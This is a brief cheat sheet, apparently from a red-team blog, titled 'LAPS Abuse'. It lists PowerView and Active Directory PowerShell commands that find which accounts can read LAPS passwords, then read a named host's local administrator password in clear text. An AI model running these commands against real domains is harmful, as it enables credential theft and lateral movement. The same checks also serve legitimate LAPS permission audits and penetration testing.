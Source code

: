 ```yaml
---
layout: post
date: 23/11/2022
author: Aswin Gopalakrishnan
title: LAPS Abuse
---
```


## PowerView

### Find Users Who Can Read Passwords in Clear Text
```bash
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {
    ($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and
    ($_.ActiveDirectoryRights -match 'ReadProperty')
} | ForEach-Object {
    $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_
}
```

## AD Module

- Import All Module
```bash
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose
```
- Get Permissions
```
C:\AD\Tools\Get-LapsPermissions.ps1
```
- View Password
```bash
Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
Get-AdmPwdPassword -ComputerName us-mailmgmt
```
The `Get-AdmPwdPassword` command uses the LAPS module.

---

[back](../)